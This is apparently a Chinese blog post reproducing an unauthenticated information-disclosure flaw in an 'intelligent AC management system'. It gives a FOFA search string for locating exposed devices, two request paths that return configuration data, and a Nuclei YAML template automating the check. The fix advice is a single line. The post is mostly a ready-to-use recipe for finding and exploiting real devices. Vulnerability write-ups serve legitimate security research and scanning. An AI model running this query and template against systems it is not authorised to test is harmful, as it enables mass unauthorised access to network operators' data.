 ﻿@[toc]
## 免责声明
本文章仅供学习与交流，请勿用于非法用途，均由使用者本人负责，文章作者不为此承担任何责任
## 漏洞描述
智能AC管理系统是一个控制管理系统因存在未授权访问导致信息泄露
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d3e324aafb1742f4b2b08137b0bdd2bc.png)
## 搜索语法
fofa
```
header="HTTPD_ac 1.0" 
```
## 漏洞复现
payload
```
http://ip/actpt.data
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/83acbbcb71c34daf800ff2593ff92602.png)
payload
```
http://ip/actpt_5g.data
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e62f7bc6c8364717853c3cf0841f1fd3.png)
## yaml
```yaml
id: intelligent-AC-Manage-system-Information-breaches

info: 
 name: 智能AC管理系统信息泄露漏洞
 author: xl
 description: information breaches
 severity: high

http: 
  - raw: 
      - |+
         GET /actpt.data HTTP/1.1
         Host: {{Hostname}} 
         User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
  - raw: 
      - |+
         GET /actpt_5g.data HTTP/1.1
         Host: {{Hostname}} 
         User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36

matchers-condition: and
matchers: 
  - type: word
    part: body
    words: 
      - 'ap_name'
  - type: status
    status:
      - 200


```
## 修复建议
更新到最新版本
